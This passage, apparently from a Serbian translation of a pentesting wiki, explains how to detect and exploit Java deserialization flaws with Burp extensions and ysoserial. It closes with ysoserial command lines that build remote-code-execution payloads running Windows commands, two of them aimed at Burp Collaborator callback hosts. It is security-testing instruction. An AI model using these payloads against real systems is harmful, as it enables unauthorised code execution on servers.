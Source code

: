 #### Test crne kutije

Koristeći Burp ekstenziju [**gadgetprobe**](java-dns-deserialization-and-gadgetprobe.md), možete identifikovati **koje biblioteke su dostupne** (čak i verzije). Sa ovim informacijama, moglo bi biti **lakše odabrati payload** za iskorišćavanje ranjivosti.\
[**Pročitajte ovo da biste saznali više o GadgetProbe-u**](java-dns-deserialization-and-gadgetprobe.md#gadgetprobe)**.**\
GadgetProbe je fokusiran na **`ObjectInputStream` deserializacije**.

Koristeći Burp ekstenziju [**Java Deserialization Scanner**](java-dns-deserialization-and-gadgetprobe.md#java-deserialization-scanner), možete **identifikovati ranjive biblioteke** koje se mogu iskoristiti sa ysoserial i **iskoristiti** ih.\
[**Pročitajte ovo da biste saznali više o Java Deserialization Scanner-u.**](java-dns-deserialization-and-gadgetprobe.md#java-deserialization-scanner)\
Java Deserialization Scanner je fokusiran na **`ObjectInputStream`** deserializacije.

Takođe možete koristiti [**Freddy**](https://github.com/nccgroup/freddy) da biste otkrili ranjivosti deserializacije u **Burp**-u. Ovaj dodatak će otkriti ranjivosti koje se odnose ne samo na **`ObjectInputStream`**, već i na ranjivosti iz biblioteka za deserializaciju **Json** i **Yml**. U aktivnom režimu, pokušaće da ih potvrdi korišćenjem sleep ili DNS payloada.\
[**Više informacija o Freddy-u možete pronaći ovde.**](https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2018/june/finding-deserialisation-issues-has-never-been-easier-freddy-the-serialisation-killer/)

**Testiranje serijalizacije**

Nije sve u proveri da li server koristi ranjive biblioteke. Ponekad možete **promeniti podatke unutar serijalizovanog objekta i zaobići neke provere** (možda vam omogućiti administratorske privilegije unutar veb aplikacije).\
Ako pronađete java serijalizovani objekat koji se šalje veb aplikaciji, možete koristiti [**SerializationDumper**](https://github.com/NickstaDB/SerializationDumper) da biste ispisali serijalizovani objekat u formatu koji je čitljiviji čoveku. Poznavanje podataka koje šaljete olakšavaće vam izmenu i zaobilaženje nekih provera.

### **Eksploatacija**

#### **ysoserial**

Glavni alat za eksploataciju Java deserializacija je [**ysoserial**](https://github.com/frohoff/ysoserial) ([**preuzmite ovde**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)). Takođe možete razmotriti korišćenje [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) koji će vam omogućiti korišćenje složenih komandi (sa cevima, na primer).\
Imajte na umu da je ovaj alat **usmeren** na iskorišćavanje **`ObjectInputStream`**.\
Predlažem da **prvo koristite payload "URLDNS"** pre RCE payloada da biste testirali da li je ubrizgavanje moguće. U svakom slučaju, imajte na umu da "URLDNS" payload možda ne radi, ali drugi RCE payload može.

```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
```
